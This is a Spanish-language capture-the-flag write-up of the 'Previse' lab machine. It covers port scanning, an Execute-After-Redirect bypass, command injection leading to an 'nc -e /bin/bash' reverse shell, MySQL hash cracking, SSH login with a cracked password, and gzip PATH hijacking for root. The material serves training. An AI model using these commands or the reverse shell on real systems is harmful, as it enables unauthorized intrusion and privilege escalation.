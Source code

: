```yaml
---
title: Previse
published: true
categories: [Linux,Easy]
tags: [Web explotation, EAR, MySQL explotation, Path Hijacking]

image:
  path: https://user-images.githubusercontent.com/55555187/182441122-946b99b9-c0c0-45c6-91a7-c5d9dd9de9ae.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA

---
```


Previse es una <font color="#98E256">máquina Easy</font> de temática <font color="#D35400">Linux</font> en la que se toca EAR (Execute After Redirect) para crear un usuario válido en la web, OS Command Injection, lectura de credenciales válidas, explotación del servicio MySQL y Path Hijacking sobre el binario gzip.

## Reconocimiento y explotación

```bash
nmap -p- --open -sS --min-rate 10000 -Pn -n -vvv -oG portScan 10.10.11.104
```

![2022-07-31-12-15-56-image](https://user-images.githubusercontent.com/55555187/182440309-876ebe38-848f-4615-baa6-18f502983e1b.png)

```bash
nmap -sVC -p22,80 -oN portSV 10.10.11.104
```

![2022-07-31-12-16-49-image](https://user-images.githubusercontent.com/55555187/182440302-f2c19ee1-f2c6-4687-b60b-bf2a9ea5b690.png)

Me meto en la web y observo que los recursos tienen extensión .php, inicio un fuzzing para intentar enumerar información.

```bash
wfuzz -c --hc=404 -t 200 -H "User-Agent: Mozilla/5.0 (Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0" -w /usr/share/secLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.104/FUZZ
```

![2022-07-31-12-23-39-image](https://user-images.githubusercontent.com/55555187/182440301-27f98e4c-c527-4d97-97a8-673f2833daca.png)

De los resultados del fuzzing puedo sacar una serie de conclusiones:

1. Hay un config.php accesible (pero al ser php se interpreta y no vemos nada) que tendrá seguramente credenciales

2. Se producen muchas redirecciones lo que me indica que se comprueba si el usuario que hace la request es válido o no

Para terminar la enumeración inicial que siempre hago, intento buscar subdominios en la web Pero no encuentro ninguno.

```bash
wfuzz -c --hc=404,400 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://10.10.11.104' -H "Host: FUZZ.10.10.11.104/" -H "User-Agent: Mozilla/5.0 (Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0"
```

Compruebo si *login.php* es vulnerable a SQLi pero no lo es. 

Revisando los recursos que me han dado 200 ok encuentro que en nav.php tengo acceso hacia los recursos que dan 302 aunque me siguen redirigiendo al login.

![2022-07-31-12-37-26-image](https://user-images.githubusercontent.com/55555187/182440299-2eca191a-d9f3-4694-a22f-98a10ac956f0.png)

Revisando las peticiones en el burp logro ver el panel de administración para la creación de usuarios:

![2022-07-31-12-52-20-image](https://user-images.githubusercontent.com/55555187/182440297-a73a88c0-16b0-44f3-b03f-909775492b49.png)

Lo que me hace pensar que aunque luego me redirija al login, puedo enviar una petición y crearme un usuario.

Cambio el método a POST y creo un usuario aportando los argumentos necesarios viendo los ids del formulario en la petición GET, lanzo la petición, me logueo como el usuario que acabo de crear y estoy dentro:

![2022-07-31-12-57-48-image](https://user-images.githubusercontent.com/55555187/182440290-9cfa041a-05d9-42a1-b879-870fc7d25394.png)

Una vez que tengo un usuario válido ya puedo ver las páginas que antes daban 302.

En *files.php* hay un zip con un backup del sitio por lo que me lo descargo y reviso su contenido.

![2022-07-31-12-58-40-image](https://user-images.githubusercontent.com/55555187/182440289-8b27d998-1445-4ac4-ba5f-42b2013192ff.png)

En el backup puedo ver el contenido de *config.php* obteniendo credenciales:

![2022-07-31-13-00-02-image](https://user-images.githubusercontent.com/55555187/182440287-3d938954-a67f-40bc-8d07-48e89b80f77b.png)

Como está SSH abierto pruebo por si hubiese reutilización de credenciales pero no es el caso.

En *file.php* también puedo subir ficheros lo que podría dar lugar a una *subida insegura de ficheros*.

Compruebo que puedo subir archivos php pero no hay un enlace para ver el contenido del fichero, solo para descargarlo por lo que no podría aprovecharme de esto.

Revisando los archivos de backup veo que en *logs.php* se está ejecutando **exec** y que se le pasa el **parámetro delim** sin sanitizar lo que pueda dar lugar a **RCE**.

![2022-07-31-13-28-52-image](https://user-images.githubusercontent.com/55555187/182440283-8af1140e-363f-4ed5-b4ca-9566b5076c1a.png)

Intento ver si puedo obtener por pantalla el output de algún comando para confirmar el RCE pero no obtengo nada.

Pruebo a hacer una comprobación levantando un servidor HTTP y realizando una petición contra él, obteniendo una respuesta y confirmando el RCE:

![2022-07-31-13-46-24-image](https://user-images.githubusercontent.com/55555187/182440280-6d682613-8507-412c-ab05-3f54c507d9fa.png)

Me entablo una reverse shell:

```bash
nc -e /bin/bash 10.10.14.3 443
```

![2022-07-31-13-46-36-image](https://user-images.githubusercontent.com/55555187/182440279-05503994-0c33-4b33-8a42-85837fcac550.png)

Hago un tratamiento de la TTY

```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset
xterm
export SHELL=bash
export TERM=xterm
```

## Escalada de privilegios

Una vez dentro hago un reconocimiento básico:

1. Existe el usuario m4lwhere en el sistema

2. Tenemos también una contraseña de *MySQL* del archivo *config.php*

3. No podemos ejecutar sudo en ningún contexto

4. En */opt/scripts* hay un archivo de root que al parecer se ejecuta en una tarea cron: 

![2022-07-31-18-21-21-image](https://user-images.githubusercontent.com/55555187/182440276-49c9bada-5020-4454-ab52-9c99967ee47f.png)

Teniendo credenciales para *MySQL*, trato de conectarme al servicio:

![2022-07-31-18-29-34-image](https://user-images.githubusercontent.com/55555187/182440274-2f0d460c-fbfe-4425-b376-6072861d5239.png)

Accedo al contenido de la base de datos *previse* y obtengo el hash de la contraseña del usuario *m4lwhere*:

![2022-07-31-18-30-31-image](https://user-images.githubusercontent.com/55555187/182440271-53674d02-a24f-46f2-aebe-7ea7beac0357.png)

Revisando *accounts.php* podemos ver como se ha creado este hash:

![2022-07-31-18-33-47-image](https://user-images.githubusercontent.com/55555187/182440269-412150c1-4ee2-4d35-9cf0-b531ba334320.png)

También buscando en internet podemos ver que <span>*$*</span>*1$* hace referencia a  *MD5*.

Listando los formatos de *john *podemos ver que existe el formato md5crypt que se ajusta a lo que hemos observado:

![2022-07-31-18-58-21-image](https://user-images.githubusercontent.com/55555187/182440266-37addc94-1e55-4961-b8a3-de4f975da23f.png)

```bash
john -format=md5crypt -wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![2022-07-31-19-07-43-image](https://user-images.githubusercontent.com/55555187/182440265-0a9268f3-396f-4a10-9e27-cbd2574e14e8.png)

Compruebo que la contraseña obtenida pertenezca a *m4lwhere*:

![2022-07-31-19-08-15-image](https://user-images.githubusercontent.com/55555187/182440262-be1a2bff-8b05-4466-8ecf-7187850f1bdd.png)

Aprovechando que el servicio *SSH* está abierto en la máquina, me logueo como m4lwhere a través de él.

```bash
sshpass -p 'ilovecody112235' ssh m4lwhere@10.10.11.104
```

![2022-07-31-19-11-36-image](https://user-images.githubusercontent.com/55555187/182440260-c75fc6af-e70e-443a-ab06-a0250bfc8a93.png)

Una vez dentro, busco archivos pertenecientes al grupo *m4lwhere* y encuentro uno que me llama la atención:

![2022-07-31-19-15-49-image](https://user-images.githubusercontent.com/55555187/182440259-95e4a25c-eb0b-4f04-bf3a-92584921288d.png)

Pero tras revisarlo no encuentro nada útil.

Compruebo si el usuario puede ejecutar comandos como Sudo en algún contexto y descubro que puede ejecutar el archivo .sh que tenía root en /opt/scripts:

![2022-07-31-19-37-31-image](https://user-images.githubusercontent.com/55555187/182440256-363afcbd-4813-4e05-9307-61dd62176650.png)

Revisando el contenido del archivo lo primero que me llama la atención es que se esté usando *gzip* sin establecer un path absoluto lo que puede dar lugar a *path hijacking*:

![2022-07-31-19-48-51-image](https://user-images.githubusercontent.com/55555187/182440247-f059c561-4aaf-4ac4-96df-9f26b589e303.png)

Para aprovechar esta vulnerabilidad:

1. Modifico la variable de entorno PATH de tal forma que el sistema operativo busque primero en */tmp*
   
   ```bash
   export PATH=/tmp:$PATH
   ```

2. Creo un archivo *gzip* en */tmp* y le doy permisos de ejecución con *chmod +x*

3. Compruebo que la vulnerabilidad está presente haciendo que el archivo *gzip* ejecute un *curl* contra un servidor HTTP que he levantado usando Python
   
   ![2022-07-31-19-48-33-image](https://user-images.githubusercontent.com/55555187/182440250-1cb1054a-e04d-43ed-a79c-68b1f74152d3.png)

4. Una vez que compruebo que la vulnerabilidad existe, cambio el payload y lanzo una reverse shell contra mi máquina la cual me dará una sesión como root al estar lanzandose el script con permisos de Sudo
   
   ![2022-07-31-19-51-18-image](https://user-images.githubusercontent.com/55555187/182440243-8a72ff61-49e5-4677-bff3-2d918f06478d.png)
